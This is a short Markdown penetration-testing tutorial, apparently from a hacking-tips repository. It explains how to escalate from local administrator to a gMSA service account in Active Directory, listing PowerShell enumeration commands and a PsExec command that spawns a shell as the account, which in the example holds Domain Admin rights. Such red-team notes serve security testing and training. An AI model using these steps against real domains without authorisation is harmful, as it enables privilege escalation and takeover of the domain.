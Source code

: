 # Elevate from Local admin to gMSA account
Some of the steps in this tutorial used [ADModule](https://github.com/pwnj0hn/HackingTipsNTricks/blob/main/Active%20Directory%20Recon/ADModule.md)
* Check if any gMSA accounts are present in the domain.
 ```powershell
Get-ADServiceAccount -Filter * -properties dnshostname
```
![](../../img/gmsa_01.jpg?raw=true)



* Check if gMSA user have any interesting permissions so it is worth hijacking
 ```powershell
Get-ADPrincipalGroupMembership -Identity "http_svc$"
 ```
* Compromise the server which gMSA is assigned too.
* Download [SysInternals PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)
* Open Administrator PowerShell or cmd prompt
* Use PsExec to spawn a cmd or PowerShell prompt as the gMSA account.

```powershell
.\PsExec.exe -i -u velvet\http_svc$ -p foobar cmd.exe
```

In this case the http_svc$ account have Domain Admin rights, which it really should not have but we see service accounts have way to many priviliges all the time. DA is used in this example as a worst case scenario. It might have other cool priviliges too in other scenarios.

 
